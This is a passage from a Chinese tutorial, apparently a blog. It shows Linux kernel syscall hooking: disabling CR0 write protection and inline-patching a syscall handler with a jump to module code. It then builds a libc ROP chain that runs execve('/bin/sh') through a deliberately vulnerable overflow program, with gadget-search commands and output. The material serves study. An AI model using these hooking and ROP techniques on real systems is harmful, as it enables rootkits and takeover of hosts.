		SYSCALL_SWAP_ID, (int*)sys_call_table[SYSCALL_SWAP_ID], (int*)sys_call_table[SYSCALL_SWAP_ID]);
}
```

#### 崩溃了？！！！

下面是驱动调用系统调用表，dmesg打印如下的内容。

```
[  125.250191]  </TASK>
[  125.250192] will swap syscall
[  125.272682] show example func in sys_call_table, [__x64_sys_fspick+0x0/0x1a0]
[  125.272698] BUG: unable to handle page fault for address: ffffffffaf002568
[  125.272702] #PF: supervisor write access in kernel mode
[  125.272704] #PF: error_code(0x0003) - permissions violation
[  125.272706] PGD 2fa825067 P4D 2fa825067 PUD 2fa826063 PMD 80000002f9a001a1 
[  125.272711] Oops: Oops: 0003 [#1] PREEMPT SMP NOPTI
[  125.272715] CPU: 3 PID: 1604 Comm: tee Tainted: G           OE      6.10.0-rc4-1-MANJARO #1 f7368423391ba319e025a5cc797bf93758bea2ec
[  125.272718] Hardware name: innotek GmbH VirtualBox/VirtualBox, BIOS VirtualBox 12/01/2006
[  125.272720] RIP: 0010:lde_syscall_hack+0x6a/0xd00 [lde]
[  125.272724] Code: ed 48 c7 c7 41 b4 b4 c0 48 8b 05 b9 23 00 00 e8 cc 7d 10 ee 48 c7 c7 f0 b5 b4 c0 48 8b b0 88 0d 00 00 48 89 c3 e8 66 4a 08 ee <48> c7 83 88 0d 00 00 c0 62 b4 c0 5b e9 90 dd 3b ee 00 00 00 00 00
[  125.272726] RSP: 0018:ffffaf93423df950 EFLAGS: 00010246
[  125.272729] RAX: 0000000000000041 RBX: ffffffffaf0017e0 RCX: 0000000000000000
[  125.272731] RDX: 0000000000000000 RSI: ffffa0f153ba19c0 RDI: ffffa0f153ba19c0
[  125.272732] RBP: ffffa0ef42069800 R08: 0000000000000000 R09: ffffaf93423df7e0
[  125.272734] R10: ffffffffafeb21e8 R11: 0000000000000003 R12: 00007ffd023f76d0
[  125.272736] R13: 00007ffd023f76d0 R14: ffffaf93423dfc38 R15: ffffa0ef9043a080
[  125.272738] FS:  000076c87cdad740(0000) GS:ffffa0f153b80000(0000) knlGS:0000000000000000
[  125.272740] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[  125.272741] CR2: ffffffffaf002568 CR3: 000000010a48e000 CR4: 00000000000106f0
[  125.272745] Call Trace:
[  125.272748]  <TASK>
[  125.272751]  ? __die_body.cold+0x19/0x27
[  125.272756]  ? page_fault_oops+0x15a/0x2d0
[  125.272759]  ? search_bpf_extables+0x5f/0x80
[  125.272763]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272768]  ? exc_page_fault+0x18a/0x190
[  125.272771]  ? asm_exc_page_fault+0x26/0x30
[  125.272776]  ? lde_syscall_hack+0x6a/0xd00 [lde 29be8470b47c2f3a907c6f8d4678d84bb3246a01]
[  125.272783]  lde_proc_write+0xd7/0x110 [lde 29be8470b47c2f3a907c6f8d4678d84bb3246a01]
[  125.272801]  proc_reg_write+0x5d/0xa0
[  125.272808]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272811]  vfs_write+0xf8/0x460
[  125.272815]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272818]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272821]  ? _flat_send_IPI_mask+0x1f/0x30
[  125.272824]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272827]  ? ttwu_queue_wakelist+0xd0/0xf0
[  125.272831]  ksys_write+0x6d/0xf0
[  125.272835]  do_syscall_64+0x82/0x160
[  125.272838]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272840]  ? __tty_insert_flip_string_flags+0x98/0x130
[  125.272845]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272847]  ? tty_insert_flip_string_and_push_buffer+0x8d/0xc0
[  125.272851]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272853]  ? remove_wait_queue+0x1a/0x70
[  125.272856]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272859]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272861]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272863]  ? n_tty_write+0x372/0x520
[  125.272867]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272869]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272872]  ? __wake_up+0x44/0x60
[  125.272875]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272877]  ? file_tty_write.isra.0+0x20f/0x2c0
[  125.272881]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272884]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272886]  ? vfs_write+0x294/0x460
[  125.272891]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272894]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272896]  ? syscall_exit_to_user_mode+0x75/0x210
[  125.272899]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272901]  ? do_syscall_64+0x8e/0x160
[  125.272904]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272906]  ? srso_alias_return_thunk+0x5/0xfbef5
[  125.272909]  entry_SYSCALL_64_after_hwframe+0x76/0x7e
[  125.272912] RIP: 0033:0x76c87ceb9504
[  125.272928] Code: c7 00 16 00 00 00 b8 ff ff ff ff c3 66 2e 0f 1f 84 00 00 00 00 00 f3 0f 1e fa 80 3d 45 0b 0e 00 00 74 13 b8 01 00 00 00 0f 05 <48> 3d 00 f0 ff ff 77 54 c3 0f 1f 00 55 48 89 e5 48 83 ec 20 48 89
[  125.272930] RSP: 002b:00007ffd023f7538 EFLAGS: 00000202 ORIG_RAX: 0000000000000001
[  125.272933] RAX: ffffffffffffffda RBX: 000000000000000d RCX: 000076c87ceb9504
[  125.272935] RDX: 000000000000000d RSI: 00007ffd023f76d0 RDI: 0000000000000003
[  125.272936] RBP: 00007ffd023f7560 R08: 0000000000000000 R09: 0000000000000001
[  125.272938] R10: 00000000000001b6 R11: 0000000000000202 R12: 000000000000000d
[  125.272939] R13: 00007ffd023f76d0 R14: 000058cf79483470 R15: 000076c87cf90f00
[  125.272944]  </TASK>
[  125.272946] Modules linked in: lde(OE) snd_seq_dummy snd_hrtimer snd_seq snd_seq_device qrtr rfkill intel_rapl_msr intel_rapl_common vboxsf vboxvideo drm_vram_helper crct10dif_pclmul crc32_pclmul snd_intel8x0 snd_ac97_codec polyval_generic gf128mul ac97_bus ghash_clmulni_intel snd_pcm sha512_ssse3 sha256_ssse3 snd_timer sha1_ssse3 aesni_intel snd joydev crypto_simd vboxguest soundcore psmouse i2c_piix4 e1000 cryptd pcspkr video mousedev wmi mac_hid crypto_user loop dm_mod nfnetlink vsock_loopback vmw_vsock_virtio_transport_common vmw_vsock_vmci_transport vsock vmw_vmci ip_tables x_tables ext4 crc32c_generic crc16 mbcache jbd2 hid_generic usbhid serio_raw atkbd libps2 vivaldi_fmap ata_generic vmwgfx pata_acpi xhci_pci drm_ttm_helper crc32c_intel xhci_pci_renesas i8042 intel_agp ttm serio intel_gtt ata_piix
[  125.273030] CR2: ffffffffaf002568
[  125.273034] ---[ end trace 0000000000000000 ]---
[  125.273036] RIP: 0010:lde_syscall_hack+0x6a/0xd00 [lde]
[  125.273041] Code: ed 48 c7 c7 41 b4 b4 c0 48 8b 05 b9 23 00 00 e8 cc 7d 10 ee 48 c7 c7 f0 b5 b4 c0 48 8b b0 88 0d 00 00 48 89 c3 e8 66 4a 08 ee <48> c7 83 88 0d 00 00 c0 62 b4 c0 5b e9 90 dd 3b ee 00 00 00 00 00
[  125.273045] RSP: 0018:ffffaf93423df950 EFLAGS: 00010246
[  125.273049] RAX: 0000000000000041 RBX: ffffffffaf0017e0 RCX: 0000000000000000
[  125.273052] RDX: 0000000000000000 RSI: ffffa0f153ba19c0 RDI: ffffa0f153ba19c0
[  125.273054] RBP: ffffa0ef42069800 R08: 0000000000000000 R09: ffffaf93423df7e0
[  125.273055] R10: ffffffffafeb21e8 R11: 0000000000000003 R12: 00007ffd023f76d0
[  125.273057] R13: 00007ffd023f76d0 R14: ffffaf93423dfc38 R15: ffffa0ef9043a080
[  125.273059] FS:  000076c87cdad740(0000) GS:ffffa0f153b80000(0000) knlGS:0000000000000000
[  125.273061] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[  125.273062] CR2: ffffffffaf002568 CR3: 000000010a48e000 CR4: 00000000000106f0
[  125.273066] note: tee[1604] exited with irqs disabled
```

上面的打印信息中显示出3号CPU正在运行1604号进程`tee`，这是因为驱动响应了`echo "syscal hack | sudo tee -a /proc/lde_proc"`，进而调用`lde_syscall_hack`函数。继续查看调用栈信息，从调用栈中可以看到页错误的信息，`asm_exc_page_fault`函数标志着处理页错误的开始。

代码里面有哪里写地址上的数据了吗？哦，原来是替换系统调用表的时候，不难确认获取的系统调用表的地址是正确的，也可以根据表中元素的地址匹配到符号名（`%pS`），掉包的地址是自己模块内定义的函数，既然写地址的位置和内容都没有错，那么难道是这个地址不能被写？

在打印信息中还可以看到下面的语句，它说进行写操作时权限违规了。

```
打印内容：
#PF: supervisor write access in kernel mode
#PF: error_code(0x0003) - permissions violation

对应代码：
pr_alert("#PF: %s %s in %s mode\n",
		 (error_code & X86_PF_USER)  ? "user" : "supervisor",
		 (error_code & X86_PF_INSTR) ? "instruction fetch" :
		 (error_code & X86_PF_WRITE) ? "write access" :
					       "read access",
			     user_mode(regs) ? "user" : "kernel");
	pr_alert("#PF: error_code(0x%04lx) - %s\n", error_code,
		 !(error_code & X86_PF_PROT) ? "not-present page" :
		 (error_code & X86_PF_RSVD)  ? "reserved bit violation" :
		 (error_code & X86_PF_PK)    ? "protection keys violation" :
		 (error_code & X86_PF_RMP)   ? "RMP violation" :
					       "permissions violation");
(error_code & X86_PF_RMP)   ? "RMP violation" :
					       "permissions violation");
```

CPU需要识别地址是否可写，那么信息就一定需要位置保存，对于CPU而言，保存信息的地方当然就是寄存器了。从打印信息中也可也看到，除了栈信息以外，还存在各种寄存器的信息，不难将通用寄存器（用户态软件可以使用的）排除掉，那么就是剩下CR0-CR4寄存器。

通过查阅资料可以知道，CRO用于保存CPU和系统的信息，CR1是保留寄存器，暂时不用，CR2保存页故障对应的虚拟地址（可以看到CR2保存的数值与`UG: unable to handle page fault for address`的数值一致），CR3则CR2中线性地址对应的物理地址，CR4则标明扩展功能的属性。

```
CR0: 0000000080050033 CR2: ffffffffaf002568 CR3: 000000010a48e000 CR4: 00000000000106f0
```

由于CR0保存着CPU和系统的信息，所以我们继续看一下CR0寄存器的信息，其中第16位是WP写保护位，根据数值`0x80050033`可以确定，当前的WP位值是1，只有将WP设置成0就可以写数据了！

```
#define CR0_WP_DISABLE		0xfffffffffffeffff

static unsigned long cr0_wp_disable(void)
{
	unsigned long cr0_val, cr0_bak;

	cr0_val = cr0_get();
	cr0_bak = cr0_val;

	cr0_val &= CR0_WP_DISABLE;
	cr0_set(cr0_val);

	return cr0_bak;
}
```

接下来通过上面的代码先将WP位设置成0，然后再去该系统调用表，应该就可以了。


#### 失效的系统调用表

消除写保护后再次对系统调用进行掉包，然后通过用户程序触发系统调用，但是会发现虽然系统调用表被成功篡改了，但是系统没有执行被篡改的系统调用。

```
#include <stdio.h>
#include <syscall.h>
#include <unistd.h>

int main(void)
{
	int ret;

	ret = syscall(__NR_perf_event_open, NULL, 0, 0, 0, 0);
    printf("ret: %d\n", ret);

    return 0;
}
```

```
[  101.269684] lde_proc_write called legnth 0xd, 0x00007ffc7dae5d50
[  101.269690] will swap syscall
[  101.269707] find symbol at 0xffffffff87e017e0
[  101.269711] MSR_STAR: 0x23001000000000, MSR_LSTAR: 0xffffffff87c00080
[  101.269713] current cr0 value: 0x80050033
[  101.269714] cr0 set to: 0x80040033
[  101.269716] current cr0 value: 0x80040033
[  101.269717] current sys_call_table[0102], [0xffffffff86cd5730 __do_sys_getuid+0x0/0x30]
[  101.269724] current sys_call_table[0102] (after swap), [0xffffffffc0923490 lde_my_syscall+0x0/0x30 [lde]]
[  101.269731] cr0 set to: 0x80050033
[  101.269733] current cr0 value: 0x80050033
```

在前面分析驱动的加载流程时，看到过6.10内核中系统调用已经不借助系统调用表进行查找了，尽管系统调用表内还会保存一份处理系统调用信息，但它也只具备帮助作用了。

```
#define __SYSCALL(nr, sym) __x64_##sym,
const sys_call_ptr_t sys_call_table[] = {
#include <asm/syscalls_64.h>
};
#undef __SYSCALL

#define __SYSCALL(nr, sym) case nr: return __x64_##sym(regs);

long x64_sys_call(const struct pt_regs *regs, unsigned int nr)
{
	switch (nr) {
	#include <asm/syscalls_64.h>
	default: return __x64_sys_ni_syscall(regs);
	}
};
```

这一改动在2024年4月8日由Thomas Gleixner提交，在下方给出了对应的提交ID。

```
1e3ad78334a69b36e107232e337f9d693dcc9df2
```

#### 成功完成系统调用的自定义

尽管已经不在根据系统调用表查找处理函数了，但是我们还可以从中获取到一个重要的信息，就是系统调用处理函数的所在地址，并且我们手中还握着生杀大权 - 写保护的开关权限。有了它们我们就可以直接改写对应地址的指令，让它跳转到我们自定义的函数内部。

```
unsigned int cmd[3];
char offset[8];

*(unsigned long*)offset = (unsigned long)&lde_my_syscall;
cmd[0] = offset[6] | (offset[7] << 8) | (0xFF << 16) | (0xE0 << 24);
cmd[1] = offset[2] | (offset[3] << 8) | (offset[4] << 16) | (offset[5] << 24);
cmd[2] = 0x48 | (0xB8 << 8) | (offset[0] << 16) | (offset[1] << 24);

*(unsigned int*)syscall_orig = cmd[2];
*(unsigned int*)(syscall_orig + 4) = cmd[1];
*(unsigned int*)(syscall_orig + 8) = cmd[0];
```

上方的代码，就是用于改写指令的，此处使用的跳转方式为`mov rax,[目的地址]; jmp rax`，其中`mov rax`对应的原始字节为`0x48 0xB8`，`jmp rax`对应的字节是`0xff 0xe0`。

```
48 b8 xx xx xx xx xx xx xx xx		mov rax,[目的地址]
ff e0								jmp rax
```

当前机器使用小端字节序，因此我们需要保障高位数据位于低位地址，低位数据位于高位地址，因此可以构造出下面的字节序列。

```
e0 ff xx xx xx xx xx xx xx xx b8 48

假设地址为：0xffffffffc09e4490
内存布局：ff ff ff ff c0 9e 44 90

完整的内存布局：e0 ff ff ff ff ff c0 9e 44 90 b8 48
```

将构造好的跳转指令插入到系统调用处理函数的起始位置后，再次执行用户空间程序触发系统调用，此时可以发现系统调用的执行流程已经进入到我们自定义的函数内部了！

```
[ 4191.731014] CPU: 4 PID: 5703 Comm: getuid Tainted: G      D    OEL     6.10.0-3-MANJARO #1 8ec47643d4e120a01e8e98a30507c53166429834
[ 4191.731022] Hardware name: innotek GmbH VirtualBox/VirtualBox, BIOS VirtualBox 12/01/2006
[ 4191.731065] Call Trace:
[ 4191.731069]  <TASK>
[ 4191.731073]  dump_stack_lvl+0x5d/0x80
[ 4191.731082]  lde_my_syscall+0xe/0x30 [lde 01df834db45ceb11a83b597fc28451c52790fbd5]
[ 4191.731086]  do_syscall_64+0x82/0x190
[ 4191.731089]  ? srso_alias_return_thunk+0x5/0xfbef5
[ 4191.731093]  ? do_user_addr_fault+0x36c/0x620
[ 4191.731097]  ? srso_alias_return_thunk+0x5/0xfbef5
[ 4191.731099]  ? srso_alias_return_thunk+0x5/0xfbef5
[ 4191.731101]  entry_SYSCALL_64_after_hwframe+0x76/0x7e
[ 4191.731105] RIP: 0033:0x7e4df0637e9d
[ 4191.731120] Code: ff c3 66 2e 0f 1f 84 00 00 00 00 00 90 f3 0f 1e fa 48 89 f8 48 89 f7 48 89 d6 48 89 ca 4d 89 c2 4d 89 c8 4c 8b 4c 24 08 0f 05 <48> 3d 01 f0 ff ff 73 01 c3 48 8b 0d 63 de 0c 00 f7 d8 64 89 01 48
[ 4191.731122] RSP: 002b:00007fff0b8af098 EFLAGS: 00000206 ORIG_RAX: 000000000000012a
[ 4191.731125] RAX: ffffffffffffffda RBX: 00007fff0b8af1d8 RCX: 00007e4df0637e9d
[ 4191.731127] RDX: 0000000000000000 RSI: 0000000000000000 RDI: 0000000000000000
[ 4191.731129] RBP: 00007fff0b8af0b0 R08: 0000000000000000 R09: 0000000000000000
[ 4191.731130] R10: 0000000000000000 R11: 0000000000000206 R12: 0000000000000001
[ 4191.731132] R13: 0000000000000000 R14: 00007e4df076f000 R15: 0000632edbe94db8
[ 4191.731138]  </TASK>
[ 4191.731139] enter lde_my_syscall
```

### IDT表的扩展说明

在前面有提到过IDT表，x64下为了快速的系统调用并没有使用它，但是考虑它的重要性，下面会做一个小演示，其作用是解析IDT表的内容。

```
static struct gate_struct* idt_table[IDT_ENTRIES];

void idt_info_show(void)
{
	int i;
	struct desc_ptr* idt_desc;
	unsigned long sym_addr;

	idt_desc = (struct desc_ptr*)LDE_KLN_PTR("idt_descr");
	*idt_table = (struct gate_struct*)LDE_KLN_PTR("idt_table");
	if (!idt_desc || !*idt_table) {
		printk(KERN_ERR "unable to find symbol by [kallsyms_lookup_name], will exit ...\n");
		return;
	}
	else {
		printk(KERN_INFO "find symbol, idt_desc: 0x%px, idt_table: 0x%px\n", idt_desc, *idt_table);
	}

	for (i = 0; i < IDT_ENTRIES; i++) {
		sym_addr = (*idt_table)[i].offset_low | ((*idt_table)[i].offset_middle << 16) | ((unsigned long)(*idt_table)[i].offset_high << 32);
		printk(KERN_INFO "%02x: 0x%04x:0x%04x 0x%02x:0x%02x:0x%02x:0x%02x:0x%02x 0x%lx %pS\n",
			i, (*idt_table)[i].segment, (*idt_table)[i].offset_low,
			(*idt_table)[i].bits.ist, (*idt_table)[i].bits.zero, (*idt_table)[i].bits.type,
			(*idt_table)[i].bits.dpl, (*idt_table)[i].bits.p, sym_addr, (unsigned long*)sym_addr);
	}
}
```

从上面代码中可以看到，代码首先会获取IDT表的所在地址，然后会处理段和标志位信息，然后拼接地址，匹配对应的符号。

从下面的打印信息中可以看到，第一列对应IDT表项的序列号，第二列是段和偏移新信息，第三列是比特位信息，第四列是处理中断的函数地址，第五列是函数地址对应的符号信息。

```
[ 3031.099962] lde_proc_write called legnth 0x9, 0x00007ffe03f5a9f0
[ 3031.099988] find symbol, idt_desc: 0xffffffff8ab275f0, idt_table: 0xffffffff8bc8f000
[ 3031.099990] 00: 0x0010:0x1030 0x00:0x00:0x0e:0x00:0x01 0xffffffff8a201030 asm_exc_divide_error+0x0/0x20
......
[ 3031.100676] fe: 0x0010:0x15b0 0x00:0x00:0x0e:0x00:0x01 0xffffffff8a2015b0 asm_sysvec_error_interrupt+0x0/0x20
[ 3031.100679] ff: 0x0010:0x15d0 0x00:0x00:0x0e:0x00:0x01 0xffffffff8a2015d0 asm_sysvec_spurious_apic_interrupt+0x0/0x20
```

从上方打印的信息中，可以看到IDT表中0号表项用于处理除法错误，254号表项用于处理中断异常，255号表项用于处理APIC的中断异常。

# 利用思路

在最原始的栈溢出利用当中，需要向栈内注入一段Shellcode并覆盖函数的返回地址，其中被劫持的返回地址需要指向Shellcode的所在位置，当函数返回时自然就会前往执行Shellcode，后面为了缓解该问题，栈所在的内存页会直接被设置为不可执行的状态，此时栈上的Shellcode就无法执行了。

对于用户态程序来讲内存页的可执行状态不是它可以操作的，需要权限更高的内核进行操作，显然用户态程序无法直接完成内存页可执行状态的篡改。

## ROP

想要执行Shellcode有两个条件，一是Shellcode位于可执行的区域，二是有办法前往Shellcode的所在区域。

位于可执行区域的Shellcode并不难找，比如程序自身以及依赖动态链接链接库中的代码，不管借用整个函数还是部分指令都不是问题。此处需要了解的是被利用元素的偏移值及模块的基地址，用于提供位置信息。

既然Shellcode有了，那么应该如何跳转呢？是`jxx`还是`call`这样的指令呢，如果是它们，此时就又会要求栈所在内存页是可执行状态的了，它们是不可取的。除此之外还有什么跳转方式呢？`call`指令用于函数调用，而函数的返回则是`ret`指令。

`ret`指令有一个好处，就是它会从栈上取返回地址，对需要向栈上注入数据的我们是刚需的。此时向栈上注入的数据就不再是Shellcode，而是Shellcode对应的地址，每使用一次`ret`指令都会根据地址执行一段代码，代码结尾如果还是`ret`指令，那么就会继续取出地址并前往执行。这种利用`ret`指令进行编程的方式被称作是面向返回的编程ROP(`Return-Oriented Programming`)。

因此使用ROP时，只需要拥有栈上数据的读取权限，而不需要栈的执行权限，给栈上数据和Shellcode直接搭建执行的桥梁。

## 系统调用的利用

比起动态链接库，系统调用才是用户态程序最离不开的存在，借助系统调用可以实现非常丰富的功能，在众多的系统调用中，存在一个我们非常关心且有用的系统调用，它就是`__NR_execve`，它接收3个参数，第一个参数是可执行程序的路径，第二个参数是命令行参数`argv`，第三个参数是环境变量参数`envp`，最后根据这三个参数执行程序。

```
#define __NR_execve 59
```

对于当前机器来讲，保存前六个参数会使用`rdi`、`rsi`、`rdx`、`rcx`、`r8`、`r9`寄存器。

从`entry_SYSCALL_64`的汇编代码中可以看到，系统调用号位于`rax`寄存器内（`do_syscall_64`第二参数是系统调用号，根据调用协议会占用`rsi`寄存器，`entry_SYSCALL_64`中将`eax`的数值放入到`rsi`后，调用`do_syscall_64`函数）。

```
entry_SYSCALL_64：
movq	%rsp, %rdi
/* Sign extend the lower 32bit as syscall numbers are treated as int */
movslq	%eax, %rsi
/* clobbers %rax, make sure it is after saving the syscall nr */
IBRS_ENTER
UNTRAIN_RET
CLEAR_BRANCH_HISTORY
call	do_syscall_64		/* returns with IRQs disabled */

__visible noinstr bool do_syscall_64(struct pt_regs *regs, int nr) {......}
```

通用寄存器是用户态和内核态都可以访问的，上面复制数据到`rdi`和`rsi`时，用户态程序传递参数不就被覆盖了吗？

这个秘密其实就在`entry_64.S`文件中起始部分包含的`calling.h`头文件内，该头文件中会提前将寄存器信息压入栈内，按照`struct pt_args`的格式保存，`pt_args`会通过`movq	%rsp, %rdi`作为第一个参数传递给`do_syscall_64`函数，这时`do_syscall_64`就可以通过`pt_args`使用用户态程序传递的参数。

```
entry_64.S：
......
#include "calling.h"
......

calling.h：
......
#ifdef CONFIG_X86_64
.macro PUSH_REGS rdx=%rdx rcx=%rcx rax=%rax save_ret=0 unwind_hint=1
	.if \save_ret
	......
	pushq	%rbx		/* pt_regs->rbx */
	pushq	%rbp		/* pt_regs->rbp */
	pushq	%r12		/* pt_regs->r12 */
	pushq	%r13		/* pt_regs->r13 */
	pushq	%r14		/* pt_regs->r14 */
	pushq	%r15		/* pt_regs->r15 */
	......
......
```

到此我们可以知道，为了借助系统调用完成PWN，需要进行以下的操作：

1. 将系统调用号压入`rax`寄存器内
2. 将参数压入对应寄存器内
3. 压入寄存器的数据需要在栈上构造
4. 构造ROP将它们串联起来，使之可以顺利执行

# 示例讲解

下面直接给出了示例程序的源代码。

```
#include <stdio.h>
#include <unistd.h>
#include <string.h>

#define MAX_READ_LEN 4096

static void simple_overflow(void) {
    char buf[12];

    read(STDIN_FILENO, buf, MAX_READ_LEN);
}

int main(void) {
    simple_overflow();

	printf("has return\n");

    return 0;
}
```

程序只开启了NX、PIE保护。

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled

cat /proc/sys/kernel/randomize_va_space
0
```

首先，我们的目标是调用Shell，需要`__NR_execve`系统调用，它的系统调用号是59，放入`rax`寄存器内。

之后根据内核中`execve`的要求，我们需要提交第一个参数为Shell程序的路径，而命令行参数和环境变量参数在这里没有需求，从程序的返回变结果来看，不管是`main`函数还是`simple_overflow`函数都是没有接收参数的，因此`rsi`和`rdx`寄存器中保存的都是`libc`传递过来的参数，其中`rsi`和`rdx`分别对应主程序的命令行参数和环境变量参数。

此时调用shell时并不需要命令行参数`rsi`，我们需要直接运行Shell，而不是借助Shell运行某某东西，因此`rsi`可以清空，环境变量在此没有设置的必要，所以`rdx`也需要清空。

Linux下一般通过`/bin/sh`运行Shell，因此这里需要根据该字符串对文件进行检索获取相对位置。

```
借助strings工具检索：
strings -a -t x /usr/lib/libc.so.6 | grep "/bin/sh"
1aae28 /bin/sh

Linux下的od命令用于读取一段内容，然后将内容按照指定的格式打印出来
下面通过echo命令和管道符向od传递待翻译的内容
od命令内-t可以指定输出格式，x代表打印十六进制，C代表单个字节，c代表打印ASCII字符
echo "/bin/sh" | od -t xCc
0000000  2f  62  69  6e  2f  73  68  0a
          /   b   i   n   /   s   h  \n
/bin/sh对于的ASCII码：2f 62 69 6e 2f 73 68

根据二进制信息进行检索：
hexdump -C /usr/lib/libc.so.6 | grep "2f 62 69 6e 2f 73 68"
001aae20  63 00 2d 63 00 2d 2d 00  2f 62 69 6e 2f 73 68 00  |c.-c.--./bin/sh.|
```

该字符串会根据调用协议放入`rdi`寄存器内。

接下来要做的准备就是构造ROP。

函数的结尾处，有一个天然的`ret`指令（对应十六进制数据为0xc3），我们需要它带我们前面向寄存器存入参数的指令所在地。其中`pop rax`指令的十六进制数据为0x58，`pop rdi`指令的十六进制数据为0x5f，`pop rsi`指令的十六进制数据为为0x5e，`pop rdx`指令的十六进制数据为为0x5a。

如此构造有两种方式，一是`pop rax ; pop rdi ; xxx ; ret`，而是`pop rax ; ret ; pop rdi ; ret ; xxx`（交换顺序也可）。

```
hexdump -C /usr/lib/libc.so.6 | grep -i "58 5e 5f c3"

ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rax ; pop rsi ; pop rdi ; ret"
```

通过ROPgadget和hexdump工具检索会发现找不到与方式一匹配的指令。

```
pop rax ; ret：
hexdump -C /usr/lib/libc.so.6 | grep -i "58  c3"
000d0880  8b 47 2c 3b 46 2c 75 58  c3 0f 1f 80 00 00 00 00  |.G,;F,uX........|
ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rax ; ret"
0x00000000000d0887 : pop rax ; ret

pop rdi ; ret：
hexdump -C /usr/lib/libc.so.6 | grep -i "5f c3"
000fd8c0  5d 41 5e 41 5f c3 66 2e  0f 1f 84 00 00 00 00 00  |]A^A_.f.........|
ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rdi ; ret"
0x00000000000fd8c4 : pop rdi ; ret

pop rsi ; ret：
hexdump -C /usr/lib/libc.so.6 | grep -i "5e c3"
000fec60  2b 5b 4c 89 e0 5d 41 5c  41 5d 41 5e c3 0f 1f 00  |+[L..]A\A]A^....|6 2e  0f 1f 84 00 00 00 00 00  |]A^A_.f.........|
ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rsi ; ret"
0x00000000000fec6b : pop rsi ; ret

pop rdx ; ret：
无法检索到结果
```

检索方式二中的格式时，会发现可以检索到数据，其中`rax`、`rdi`、`rsi`分别对应偏移值0xd0887、0xfd8c4及0xfec6b，而`rdx`则无法检查到数据。

## 为什么只有rdx无法检索？

这时因为`rax`是返回值使用的寄存器，函数中的返回值很多时候都通过局部变量赋值，而局部变量又在栈上，所以从栈上弹出值到`rax`再返回，很合情合理吧。

至于`rsi`和`rdi`，它们是幸运的一方，在x64架构中新添加了`r8`-`r15`8个寄存器，它们二进制的表示形式中，会借用`pop rax`等其余七个寄存器的编码，比如`pop rsi`对应0x5e，`pop r14`对应`0x41 0x5e`。还有更加重要的一点，就是`r12`-`r15`寄存器是被调用方保存的，如果调用者要使用这些寄存器，就需要先将寄存器的数值压入栈内，返回时再恢复，那么此时`r12`-`r15`寄存器就会在返回前进行`pop`操作，`pop rsi`和`pop rdi`与`pop r14`和`pop r15`二进制编码部分重合，因此有了部分提取的可能。

```
原指令
41 5e pop r14
c3    ret

借用部分指令：
5e    pop rsi
c3    ret
```

剩下最惨的就是`rdx`寄存器了，非亲非故，找不到一个返回前使用的理由。

考虑到，这里我们需要将`rdx`寄存器设置成0，而函数返回时返回0或空指针是一种常见的操作，因此在函数返回时对应的汇编代码中，时长可以看到下面的操作（清零`edx`，然后`edx`赋值给`rax`后返回）。

```
xor edx, edx
mov rax rdx
ret
```

借助上面的汇编代码，我们一页可以实现`rdx`的清零操作。

```
ROPgadget --binary /usr/lib/libc.so.6 | grep -E "xor edx, edx" | grep "ret"
0x0000000000094a78 : xor edx, edx ; mov rax, rdx ; ret
```

## 指令的可执行确认

```
readelf -l /usr/lib/libc.so.6：
LOAD           0x0000000000024000 0x0000000000024000 0x0000000000024000
                 0x000000000016b0b9 0x000000000016b0b9  R E    0x1000
LOAD           0x0000000000190000 0x0000000000190000 0x0000000000190000
                 0x000000000004dabb 0x000000000004dabb  R      0x1000
```

通过readelf工具观察`libc.so.6`的段头信息，会发现上面找到的偏移值均位于可执行段内，它们是可以进行利用的。

设置好参数后，下一步要做的就是调用系统调用指令`syscall`，

```
ROPgadget --binary /usr/lib/libc.so.6 | grep "syscall"
0x000000000012ddf4 : adc al, 0 ; add byte ptr [rax], al ; add edx, 1 ; syscall

hexdump -C /usr/lib/libc.so.6 -s 0x24000 -n 0x16c000 | grep "0f 05" | more
00024470  01 00 00 00 b8 0e 00 00  00 0f 05 8b 05 df f6 1b  |................|
```
